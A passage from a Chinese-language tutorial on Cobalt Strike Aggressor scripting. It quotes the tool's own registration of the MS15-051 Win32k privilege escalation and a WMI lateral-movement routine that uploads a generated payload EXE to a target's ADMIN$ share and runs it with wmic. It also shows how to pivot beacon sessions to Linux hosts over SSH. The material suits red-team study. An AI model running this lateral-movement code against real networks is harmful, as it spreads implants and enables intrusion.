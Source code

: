 Privilege Escalation (Spawn a Session) 
---------------------------------------

> 官方权限提升，产生新会话

源码：

```
beacon_exploit_register("ms15-051", "Windows ClientCopyImage Win32k Exploit (CVE 2015-1701)", &ms15_051_exploit);
```

Lateral Movement (Spawn a Session) 
-----------------------------------

> 官方横向移动源码

```
beacon_remote_exploit_register("wmi", "x86", "Use WMI to run a Beacon payload", lambda(&wmi_remote_spawn, $arch => "x86"));beacon_remote_exploit_register("wmi64", "x64", "Use WMI to run a Beacon payload", lambda(&wmi_remote_spawn, $arch => "x64"));
```

```
# $1 = bid, $2 = target, $3 = listenersub wmi_remote_spawn {	local('$name $exedata');	btask($1, "Tasked Beacon to jump to $2 (" . listener_describe($3) . ") via WMI", "T1047");	# we need a random file name.	$name = rand(@("malware", "evil", "detectme")) . rand(100) . ".exe";	# generate an EXE. $arch defined via &lambda when this function was registered with	# beacon_remote_exploit_register	$exedata = artifact_payload($3, "exe", $arch);	# upload the EXE to our target (directly)	bupload_raw!($1, "\\\\ $+ $2 $+ \\ADMIN\$\\ $+ $name", $exedata);	# execute this via WMI	brun!($1, "wmic /node:\" $+ $2 $+ \" process call create \"\\\\ $+ $2 $+ \\ADMIN\$\\ $+ $name $+ \"");	# assume control of our payload (if it's an SMB or TCP Beacon)	beacon_link($1, $2, $3);}
```

上面涉及到的 数据模型 和 事件，在官方文档中都可以找到。

SSH Sessions 
=============

> 和 beacon 一样也是信标，但是是从 Liunx 主机上返回的

如何上线一台 Liunx 主机呢? 我们可以按照传统的方法使用官方给的方式，直接在 Beacon 中去链接内网中的 liunx 主机，语法如下：

```
beacon> ssh <IP>:<port><username><password>
```

我在本地开一台 liunx 主机，然后我们在横向上线：

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99O0Bqvq3nqKRzHBUUzf3uiceb9Lvu9D3ZI7maRU8PV2k2A39woKXbUvog/640?wx_fmt=png)

可以发现我们得到一台 liunx 主机，这里上线 Liunx 主机的的作用大概是为了好看一点，能够很快速的定位 liunx 主机是由那个 windows 打通的，其他的就不给予评价，个人感觉可以直接 ssh 登录就行

当我们登录成功以后，我们就可以在 Liunx 主机上执行命令，和 beacon 差不多：

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OAu6xTN5nFic22iaia0GUb6aeD3tWPhyTicPnqIpUicnponxDicfqibGe7Rl8Q/640?wx_fmt=png)

除了官方的方式上线，我们可以使用 Cross C2，下载地址：https://github.com/gloxec/CrossC2/releases/tag/v2.1
